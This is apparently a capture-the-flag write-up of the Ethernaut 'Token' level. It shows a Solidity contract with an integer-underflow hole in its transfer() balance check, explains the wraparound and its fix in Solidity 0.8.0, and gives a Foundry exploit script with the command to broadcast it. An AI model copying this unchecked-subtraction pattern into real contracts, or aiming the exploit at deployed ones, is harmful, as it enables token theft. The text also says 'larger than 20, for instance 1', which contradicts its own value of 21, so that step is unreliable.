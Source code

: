 ## 👾 05. Token

<br>
  
<p align="center">
<img width="300" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/b4985e6e-fbb2-4e7c-ac7b-2e249f857bb4">
</p>


<br>


### tl; dr

<br>


* in this challenge, we explore a classic vulnerability in both web2 and web3 security: **integer overflows**.


<br>


```solidity
contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```


<br>

---

### discussion

<br>

 * programming languages that are not memory-managed can have their integer variables overflown if assigned to values larger than the variables' capacity limit.
    - we will use this trick to overflow a `uint` and bypass the `require()` check of `Token()`'s `transfer()` function:

<br>

```solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
```

<br>

 * whenever we add `1` to a variable's maximum value, the value wraps around and decreases.
    - for example, an (unsigned) `uint8`, has the maximum value of `2^8 - 1 = 255`. if we add `1` to it, it becomes `0`. same as `2^256 - 1 + 1`.
    - symmetrically, if we subtract a value larger than what the variable holds, the result wraps around from the other side, increasing the variable's value. this is our exploit.

<br>

* if we pass a `_value` to `transfer()` that is larger than `20`, for instance `1`, `balances[msg.sender] - _value` results on `uint256(-1)`, which is equal to a very large number, `2^256 – 1`.


<br>

* **[in solidity, this type of integer overflow used to be a vulnerability until version `0.8.0`](https://solidity-by-example.org/hacks/overflow/)**.
    - this is why contracts were advised to use **[OpenZeppelin' `SafeMath.sol`](https://docs.openzeppelin.com/contracts/4.x/utilities#math
)** whenever they performed integer operations.
    - in newer versions, if the code is not performing these operations, we can use `unchecked` to save gas.

<br>



----

### solution in solidity

<br>

* since this challenge is so easy, we skip tests and go directly to the submission script, `script/05/Token.s.sol`:

<br>

```solidity
contract Exploit is Script {
        
        address instance = vm.envAddress("INSTANCE_LEVEL5");   
        address hacker = vm.rememberKey(vm.envUint("PRIVATE_KEY"));    
        Token level = Token(instance);     
        
        function run() external {
            vm.startBroadcast(hacker);
            level.transfer(address(0), 21);
            vm.stopBroadcast();
    }
}
```

<br>

* running with:

<br>

```shell
> forge script ./script/05/Token.s.sol --broadcast -vvvv --rpc-url sepolia
```

<br>

---

### alternative 3-lines solution directly in the console

<br>

<p align="center">
<img width="600" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/c2d2db5c-feb8-469d-91b6-5b852cc5f011">
</p>

<br>


----


### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



